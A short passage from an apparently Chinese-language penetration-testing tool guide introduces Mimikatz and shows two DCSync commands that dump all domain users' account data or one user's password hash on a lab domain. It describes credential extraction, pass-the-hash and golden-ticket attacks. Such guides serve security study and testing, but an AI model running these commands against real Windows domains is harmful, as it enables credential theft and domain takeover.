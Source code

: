 ##### [Mimikatz](#toc_mimikatz)

项目地址：[https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)

项目介绍：mimikatz 用于从 Windows 操作系统内存中提取明文密码、散列、pin 码和 kerberos 票据，同时 mimikatz 还可以执行传递散列、传递票证或构建黄金票证。  
工具使用：

a、获取所有域内用户的账户信息

lsadump::dcsync /domain:hacke.testlab /all /csv

[![image.png](assets/1698894155-4f90a6e5b827dcd76bfa454a8c142fe6.png)](https://storage.tttang.com/media/attachment/2022/09/30/99540f31-cf28-4732-9217-817b93184a2f.png)

b、通过使用/user 参数指定域用户名来获取特定用户的所有帐户信息，包括其密码哈希

lsadump::dcsync /domain:hacke.testlab /user:testuser
